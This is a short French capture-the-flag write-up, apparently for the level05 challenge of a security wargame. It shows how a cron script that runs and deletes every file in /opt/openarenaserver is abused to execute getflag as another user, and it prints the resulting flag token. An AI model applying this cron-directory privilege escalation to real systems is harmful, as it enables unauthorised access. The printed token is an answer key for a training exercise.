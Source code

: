 rien dans le home on cherche des trucs sur -user flag05 : 
```shell
find / -user flag05 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```shell
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Ca ressemble a un programe lancer par CRON.

on peut faire l'essais suivant:
```shell
touch /opt/openarenaserver/essais
chmod 755 /opt/openarenaserver/essais
```
au bout de 2 mn le fichier a disparu...

On va creer un fichier run qui execute getflag et renvoi le token dans un repertoire. le seul ou l'on peut 2crire est /tmp

```shell
echo 'getflag > /tmp/token' > /opt/openarenaserver/run
chmod 755 /opt/openarenaserver/run
```
apres 2 minutes notre run a ecrit dans /tmp: 
```shell
cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
Check flag.Here is your token : viuaaale9huek52boumoomioc